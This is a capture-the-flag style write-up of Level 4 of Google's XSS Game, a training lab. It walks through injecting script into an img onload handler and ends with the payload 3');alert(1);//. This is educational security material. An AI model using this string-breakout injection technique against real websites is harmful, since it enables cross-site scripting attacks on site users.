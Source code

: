 ```markdown
### 🧪 Google XSS Game - Level 4

#### 🎯 Mission Description
Every piece of user-supplied data must be properly escaped depending on the context it's placed in. This level shows why that matters.

#### 🎯 Mission Objective
Inject JavaScript code that triggers an `alert()` popup.

---

### 🪜 Steps

- We checked the source code and found this line:

  ```html
  <img src="/static/loading.gif" onload="startTimer('3');" />
  ```

- This is where we’ll inject our payload — specifically inside the `onload` attribute.

- First attempt was:

  ```
  X">x
  ```

  Which resulted in:

  ```html
  <img src="/static/loading.gif" onload="startTimer('X&quot;&gt;x');" />
  ```

  So the special characters were escaped, and the attempt failed.

- Instead, we decided to break the `startTimer()` function itself and inject our code inside the JavaScript context.

- First, we closed the string and function with:

  ```
  3');
  ```

- Then injected:

  ```
  alert(1);
  ```

- And finally closed off the rest of the line using:

  ```
  //
  ```

---

### 💣 Final Payload

```
3');alert(1);//
```

And it gets rendered as:

```html
<img src="/static/loading.gif" onload="startTimer('3');alert(1);//');" />
```

---

### 🧠 Notes

- This is an example of XSS within JavaScript context.
- You don’t always need to break out of an HTML attribute — sometimes injecting inside the script logic itself is more effective.
- Always analyze the context of the injection point before crafting your payload.

---

**Status: Solved ✅**
```
